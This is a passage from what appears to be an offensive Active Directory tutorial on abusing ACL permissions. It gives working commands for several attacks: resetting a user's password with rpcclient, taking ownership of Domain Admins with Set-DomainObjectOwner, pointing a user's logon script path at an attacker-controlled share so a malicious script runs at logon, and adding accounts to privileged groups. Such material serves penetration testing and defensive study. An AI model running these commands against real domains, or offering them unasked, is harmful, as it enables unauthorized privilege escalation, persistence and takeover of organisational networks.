 ```bash
rpcclient -U KnownUsername 10.10.10.192
> setuserinfo2 UsernameChange 23 'ComplexP4ssw0rd!'
```

## **WriteOwner on Group**

If an attacker finds that they have `WriteOwner` rights over a group, they can change the ownership of the group to themselves. This is particularly impactful when the group in question is `Domain Admins`, as changing ownership allows for broader control over group attributes and membership. The process involves identifying the correct object via `Get-ObjectAcl` and then using `Set-DomainObjectOwner` to modify the owner, either by SID or name.

```bash
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
Set-DomainObjectOwner -Identity S-1-5-21-2552734371-813931464-1050690807-512 -OwnerIdentity "spotless" -Verbose
Set-DomainObjectOwner -Identity Herman -OwnerIdentity nico
```

## **GenericWrite on User**

This permission allows an attacker to modify user properties. Specifically, with `GenericWrite` access, the attacker can change the logon script path of a user to execute a malicious script upon user logon. This is achieved by using the `Set-ADObject` command to update the `scriptpath` property of the target user to point to the attacker's script.

```bash
Set-ADObject -SamAccountName delegate -PropertyName scriptpath -PropertyValue "\\10.0.0.5\totallyLegitScript.ps1"
```

## **GenericWrite on Group**

With this privilege, attackers can manipulate group membership, such as adding themselves or other users to specific groups. This process involves creating a credential object, using it to add or remove users from a group, and verifying the membership changes with PowerShell commands.

```bash
$pwd = ConvertTo-SecureString 'JustAWeirdPwd!$' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('DOMAIN\username', $pwd)
Add-DomainGroupMember -Credential $creds -Identity 'Group Name' -Members 'username' -Verbose
Get-DomainGroupMember -Identity "Group Name" | Select MemberName
Remove-DomainGroupMember -Credential $creds -Identity "Group Name" -Members 'username' -Verbose
```

## **WriteDACL + WriteOwner**

Owning an AD object and having `WriteDACL` privileges on it enables an attacker to grant themselves `GenericAll` privileges over the object. This is accomplished through ADSI manipulation, allowing for full control over the object and the ability to modify its group memberships. Despite this, limitations exist when trying to exploit these privileges using the Active Directory module's `Set-Acl` / `Get-Acl` cmdlets.
